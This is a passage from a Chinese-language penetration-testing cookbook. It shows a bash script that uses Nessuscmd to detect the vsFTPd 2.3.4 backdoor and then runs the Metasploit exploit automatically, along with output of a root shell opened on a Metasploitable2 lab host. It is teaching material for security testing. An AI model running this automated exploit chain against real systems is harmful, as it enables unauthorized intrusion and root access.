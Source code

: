 上面的输出显示，在完成 Nmap NSE 脚本后，将立即执行 Metasploit exploit 模块并在目标系统上返回一个交互式 Meterpreter shell。

### 工作原理

MSFCLI 是 MSF 控制台的有效替代工具，可用于直接从终端执行单行命令，而不是在交互式控制台中工作。 这使得 MSFCLI 对于 bash shell 脚本中的使用是一个很好的功能。 因为可以从 bash 终端执行 NSE 脚本和 MSFCLI，所以可以轻松编写 shell 脚本来将这两个功能组合在一起。

## 8.4 使用 MSF 漏洞利用的 Nessuscmd 漏洞扫描

将 NSE 脚本和 Metasploit 利用结合到一起可以减轻工作量。可由 NSE 脚本测试的漏洞数量明显小于可通过专用漏洞扫描程序（如 Nessus）评估的漏洞数量。 幸运的是，Nessus 有一个名为 Nessuscmd 的命令行工具，也可以在 bash 中轻松访问。 该秘籍演示了如何将 Nessus 定向漏洞扫描与 MSF 自动利用相结合来验证发现。

### 准备

为了使用此秘籍中演示的脚本，你需要访问运行漏洞服务的系统，该服务可以使用 Nessus 进行标识，并且可以使用 Metasploit 进行利用。 提供的示例在 Metasploitable2 服务器上使用 vsFTPd 2.3.4 后门漏洞。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。

此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本，将漏洞扫描和目标利用的任务结合到一起。 在这种情况下，Nessuscmd 用于运行 Nessus 插件，测试 vsFTPd 2.3.4 后门，以确定系统是否存在漏洞，然后如果发现系统存在漏洞，则对系统执行相应的 Metasploit 漏洞利用：

```sh
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <RHOST>"; exit; fi

rhost=$1

/opt/nessus/bin/nessuscmd -p 21 -i 55523 $rhost >> tmp_output.txt 
if [ $(grep 55523 output.txt | cut -d " " -f 9) = "55523" ];    
    then echo "$rhost appears to be vulnerable, exploiting with Metasploit...";   
    msfcli exploit/unix/ftp/vsftpd_234_backdoor PAYLOAD=cmd/unix/ 
    interact RHOST=$rhost E; 
fi 
rm tmp_output.txt 
```

脚本的开头非常类似于漏洞扫描和利用脚本，它将 NSE 扫描与前一个秘籍中的 MSF 利用组合在一起。但是，由于在此特定脚本中使用了不同的载荷，因此用户必须提供的唯一参数是`RHOST`值，该值应该是目标系统的 IP 地址。脚本的正文以执行 Nessuscmd 工具开始。 `-p`参数声明正在评估的远程端口，`-i`参数声明插件号。插件 55523 对应 VSFTPd 2.3.4 后门的 Nessus 审计。 然后，Nessuscmd 的输出重定向到一个名为`tmp_output.txt`的临时输出文件。如果目标系统上存在此漏洞，则此脚本的输出将仅返回插件 ID。所以下一行使用`if ... then`条件语句结合`grep`序列，来确定返回的输出中的插件 ID。如果输出中返回了插件ID，表明系统应该存在漏洞，那么将执行相应的 Metasploit 利用模块。

```
root@KaliLinux:~# ./nessuscmd_xploit.sh 
Usage: #./script <RHOST>
```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 此使用描述表示，应使用`RHOST`参数执行脚本，它用于定义目标 IP 地址。 此输入值将用于 Nessuscmd 漏洞扫描和（如果存在漏洞）使用 Metasploit 在目标系统上执行利用。 在以下示例中，脚本用于确定 IP 地址为`172.16.36.135`的主机是否存在漏洞。 如果系统被确定为存在漏洞，则将执行该利用，并自动建立与后门的连接。

```
root@KaliLinux:~# ./nessuscmd_xploit.sh 172.16.36.135 
172.16.36.135 appears to be vulnerable, exploiting with Metasploit... 
[*] Initializing modules... 
PAYLOAD => cmd/unix/interact 
RHOST => 172.16.36.135 
[*] Banner: 220 (vsFTPd 2.3.4) 
[*] USER: 331 Please specify the password. 
[+] Backdoor service has been spawned, handling... 
[+] UID: uid=0(root) gid=0(root) 
[*] Found shell. 
[*] Command shell session 1 opened (172.16.36.232:48126 -> 172.16.36.135:6200) at 2014-04-28 00:29:21 -0400

```